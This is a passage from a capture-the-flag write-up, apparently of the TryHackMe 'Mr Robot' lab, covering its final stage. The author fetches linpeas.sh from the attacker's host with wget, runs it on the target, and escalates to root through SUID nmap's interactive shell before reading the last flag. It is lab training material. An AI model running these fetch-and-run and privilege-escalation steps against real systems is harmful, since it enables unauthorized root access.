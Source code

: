 Download files (Do that on the **target** machine):

```bash
cd /dev/shm/
wget "$YOURIP:8000/linpeas.sh"
```

(\$YOURIP is your tun0 ip that shows up if you run ifconfig)

Now mark linpeas.sh as an executable

```bash
chmod +x linpeas.sh
```

And run and save it

```bash
./linpeas.sh | tee linout.txt
```

As usual, linpeas found a shitload of things but something that stood out to me was the “nmap” entry in the SUID section.

A quick search on [GTFOBins](https://gtfobins.github.io/) shows us that a root shell is just a few lines of code away.

![](/static/images/Mr-Robot-TryHackMe/gtfobins.png)

I used the second option, so spawn an interactive nmap shell and get a root shell.

```plain
nmap --interactive
nmap> !sh
```

And there you go, you have a root shell! I didn’t stabilize it this time, just because we don’t work in it very long.

### Flag 3

Now we can have a look inside of the /root/ directory and we see the third key.

```plain
# whoami
root
# pwd
/root/
# cat key-3-of-3.txt
key3
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
